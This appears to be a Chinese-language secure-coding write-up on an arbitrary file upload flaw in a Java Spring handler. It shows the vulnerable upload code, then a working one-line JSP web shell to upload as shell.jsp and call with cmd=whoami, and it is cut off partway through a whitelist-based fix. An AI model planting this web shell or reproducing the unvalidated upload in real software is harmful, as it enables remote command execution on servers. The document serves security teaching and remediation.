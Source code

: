 ```
    @PostMapping("/upload")
    public String singleFileUpload(@RequestParam("file") MultipartFile file,
                                   RedirectAttributes redirectAttributes) {
        if (file.isEmpty()) {
            // 赋值给uploadStatus.html里的动态参数message
            redirectAttributes.addFlashAttribute("message", "Please select a file to upload");
            return "redirect:/file/status";
        }

        try {
            // Get the file and save it somewhere
            byte[] bytes = file.getBytes();
            Path path = Paths.get(UPLOADED_FOLDER + file.getOriginalFilename());
            Files.write(path, bytes);

            redirectAttributes.addFlashAttribute("message",
                    "You successfully uploaded '" + UPLOADED_FOLDER + file.getOriginalFilename() + "'");

        } catch (IOException e) {
            redirectAttributes.addFlashAttribute("message", "upload failed");
            logger.error(e.toString());
        }

        return "redirect:/file/status";
    }

```

文件上传到方法中，未判断文件的类型、扩展名等信息，也未对生成文件的文件名进行重置，只是直接将文件上传到文件保存目录中，使用测试文件成功上传。构造一句话木马：

```
<% if ("pass".equals(request.getParameter("pwd"))) { java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b)) != -1) out.println(new String(b)); } %>

```

保存为shell.jsp进行上传，然后传入参数pwd=pass&cmd=whoami



修复代码

```
    @PostMapping("/upload/picture")
    @ResponseBody
    public String uploadPicture(@RequestParam("file") MultipartFile multifile) throws Exception {
        if (multifile.isEmpty()) {
            return "Please select a file to upload";
        }

        String fileName = multifile.getOriginalFilename();
        String Suffix = fileName.substring(fileName.lastIndexOf(".")); // 获取文件后缀名
        String mimeType = multifile.getContentType(); // 获取MIME类型
        String filePath = UPLOADED_FOLDER + fileName;
        File excelFile = convert(multifile);


        // 判断文件后缀名是否在白名单内  校验1
        String[] picSuffixList = {".jpg", ".png", ".jpeg", ".gif", ".bmp", ".ico"};
        boolean suffixFlag = false;
        for (String white_suffix : picSuffixList) {
            if (Suffix.toLowerCase().equals(white_suffix)) {
                suffixFlag = true;
                break;
            }
```